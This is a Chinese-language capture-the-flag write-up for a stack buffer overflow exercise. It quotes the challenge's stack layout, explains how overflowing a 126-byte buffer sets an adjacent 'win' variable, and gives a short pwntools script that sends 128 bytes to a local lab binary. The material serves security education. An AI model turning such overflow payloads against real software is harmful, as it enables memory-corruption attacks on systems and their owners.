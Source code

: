 # 挑战简介
```
我们的堆栈指针指向 0x7ffe36f38810，基指针指向 0x7ffe36f388d0。
这意味着我们的堆栈框架中有（十进制）26 个 8 字节字，
包括保存的基指针和保存的返回地址，
总共 208 个字节。
输入缓冲区从 0x7ffe36f38840 开始，位于堆栈框架的中途，
（堆栈中“上方”是函数使用的其他局部变量）。
您的输入将被读入此缓冲区。
缓冲区长度为 126 字节，但程序会让您提供任意大的输入长度，从而溢出缓冲区。

在此级别中，有一个“win”变量。
默认情况下，此变量的值为零。
但是，当此变量非零时，将打印标志。
您可以通过溢出输入缓冲区使此变量非零。
“win”变量存储在 0x7ffe36f388c0，即输入缓冲区开始后 128 个字节。

我们已针对此挑战禁用以下标准内存损坏缓解措施：
- 二进制文件*不*与位置无关。这意味着每次运行时它都会位于同一位置，这意味着通过分析二进制文件（使用 objdump 或读取此输出），您可以知道需要用来覆盖返回地址的确切值。

您已选择发送 4096 字节的输入！
这将允许您从 0x7ffe36f38840（输入缓冲区的开始）写入（但不包括）0x7ffe36f39840（超出缓冲区末尾 3970 字节）。
发送您的有效载荷（最多 4096 字节）！
```

# 思路
这一章节的内容，都是有关于二进制的一些漏洞的，非常有帮助，难度适中，重在理解  

这一题，考的栈溢出，就是当你输入的数据大于缓冲区的数据时，则会使申请范围外的数据被改变，后果可能会轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。

win变量在128个字节后，直接脚本疯狂输出便是了(你可以自己手输'a'和'aa'观看回馈结果，就理解了)

pwntools脚本秒了

```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-var-control-w')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
p.send('a' * 128)
p.recvall()
```
